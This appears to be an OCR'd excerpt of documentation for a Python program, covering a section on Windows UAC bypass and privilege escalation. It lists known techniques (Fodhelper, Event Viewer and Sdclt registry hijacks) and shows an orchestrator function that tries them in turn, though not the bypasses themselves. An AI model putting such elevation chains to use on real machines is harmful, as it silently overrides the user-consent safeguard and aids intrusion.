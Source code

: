 ### **Success Tracking:**
```python
attempted_methods = [
    'Fodhelper ms-settings Protocol',
    'Event Viewer Registry Hijack',
    'Sdclt Registry Hijack',
    ...
]

successful_method = 'Fodhelper ms-settings Protocol'  # First success
```

### **Status:** ✅ **PROFESSIONALLY IMPLEMENTED**

---

## SECTION 11: UAC & Privilege Functions (Lines 2000-2573)

### **Purpose:** Individual UAC bypass and privilege escalation implementations

### **Code Structure:**

**Core Function:**
```python
def is_admin():
    """Check if running with administrator privileges"""
    try:
        return ctypes.windll.shell32.IsUserAnAdmin() != 0
    except:
        return False

def attempt_uac_bypass():
    """Main UAC bypass orchestrator"""
    if is_admin():
        debug_print("✅ Already running as administrator")
        return True
    
    debug_print("⚠️ Not running as admin - attempting UAC bypass...")
    
    # Try UACBypassManager
    manager = get_uac_manager()
    if manager.attempt_all():
        debug_print(f"✅ UAC bypass successful: {manager.successful_method}")
        return True
    
    # Fallback methods
    if elevate_via_registry_auto_approve():
        return True
    
    if keep_trying_elevation():
        return True
    
    debug_print("❌ All UAC bypass methods failed")
    return False
```
